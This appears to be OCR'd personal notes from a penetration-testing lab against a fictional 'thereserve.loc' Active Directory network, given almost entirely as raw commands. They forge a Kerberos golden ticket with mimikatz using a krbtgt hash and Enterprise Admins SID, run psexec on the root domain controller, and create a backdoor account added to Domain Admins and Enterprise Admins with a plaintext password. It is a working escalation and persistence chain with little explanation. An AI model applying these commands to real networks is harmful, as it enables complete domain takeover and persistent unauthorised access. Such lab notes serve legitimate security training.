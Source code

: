 proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:corp.thereserve.loc /v:10.200.118.102

In RDP :
cd C:\Users\Administrator\Documents\
./mimikatz.exe "privilege::debug" "kerberos::golden /user:Administrator /domain:corp.thereserve.loc /sid:S-1-5-21-170228521-1485475711-3199862024-1009 /service:krbtgt /rc4:0c757a3445acb94a654554f3ac529ede /sids:S-1-5-21-1255581842-1300659601-3764024703-519 /ptt" "exit"
```


./psexec64.exe \\rootdc.thereserve.loc -s powershell.exe -accepteula

```
net user d1sturb3d /add M3nta11y /domain
net group "Domain Admins" d1sturb3d /add /domain
net group "Enterprise Admins" d1sturb3d /add /domain
```

exit RDP on corpdc

proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:thereserve.loc /v:10.200.118.101


```
net user d1sturb3d /add M3nta11y
net group "Domain Admins" d1sturb3d /add /domain
```

close RDP and reopen with :


proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:bank.thereserve.loc /v:10.200.118.101

open a RDP to JMP: 
- host: 10.200.118.61
- user : d1sturb3d
- passwword: M3nta11y


















```powershell
$username = "d1sturb3d"
$domain = "corp.thereserve.loc"
$password = ConvertTo-SecureString -String "M3nta11y" -AsPlainText -Force

$newUser = New-ADUser -SamAccountName "$username" -UserPrincipalName "$username@$domain" -Name "$username" -GivenName "$username" -Surname "User" -DisplayName "$username" -Enabled $true -AccountPassword $password -ChangePasswordAtLogon $false

$domainAdminsGroup = "Domain Admins"
```